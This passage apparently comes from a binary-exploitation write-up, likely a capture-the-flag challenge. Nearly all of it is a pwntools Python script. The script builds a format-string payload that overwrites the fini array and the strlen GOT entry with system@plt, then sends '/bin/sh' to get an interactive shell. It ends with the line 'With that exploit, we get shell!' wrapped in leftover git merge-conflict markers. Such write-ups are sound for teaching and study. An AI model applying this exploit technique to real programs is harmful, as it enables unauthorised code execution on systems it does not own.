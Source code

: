 ```

# Establish the format string
payload = ""

# Just a bit of padding
payload += "xx"

# Address of fini array
payload += p32(finiArray)

# Address of fini array + 2
payload += p32(finiArray + 2)

# Address of got entry for strlen
payload += p32(strlenGot)

# Address of got entry for strlen + 2
payload += p32(strlenGot + 2)

# Write the lower two bytes of the fini array with loop around address (getline setup)
payload += "%34288x"
payload += "%12$n"

# Write the lower two bytes of the plt system address to the got strlen entry
payload += "%65148x"
payload += "%14$n"

# Write the higher two bytes of the two address we just wrote to
# Both are the same (0x804)
payload += "%33652x"
payload += "%13$n"
payload += "%15$n"

# Print the length of our fmt string (make sure we meet the size requirement)
print "len: " + str(len(payload))

# Send the format string
target.sendline(payload)

# Send '/bin/sh' to trigger the system('/bin/sh') call
target.sendline('/bin/sh')

# Drop to an interactive shell
target.interactive()
```

<<<<<<< HEAD
With that exploit, we get shell!
=======
With that exploit, we get shell!
>>>>>>> 62e51517054901aa0b7fd1508d70dcb095961589
